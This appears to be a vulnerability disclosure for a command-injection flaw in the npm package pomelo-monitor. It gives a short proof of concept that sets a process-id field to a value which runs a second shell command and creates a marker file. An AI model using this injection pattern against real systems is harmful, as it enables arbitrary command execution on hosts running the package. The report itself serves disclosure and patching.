 # Overview

The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/halfblood369/monitor/blob/master/lib/processMonitor.js#L26).

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var monitor = require("pomelo-monitor");
var param = { pid: "test; touch HACKED; #", serverId: "node-1" };
monitor.psmonitor.getPsInfo(param, function (err, data) {});
```

2. Check that there aren't any files called `HACKED`.
3. Execute the following commands in another terminal:

```bash
npm i pomelo-monitor # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files - now `HACKED` has been created.

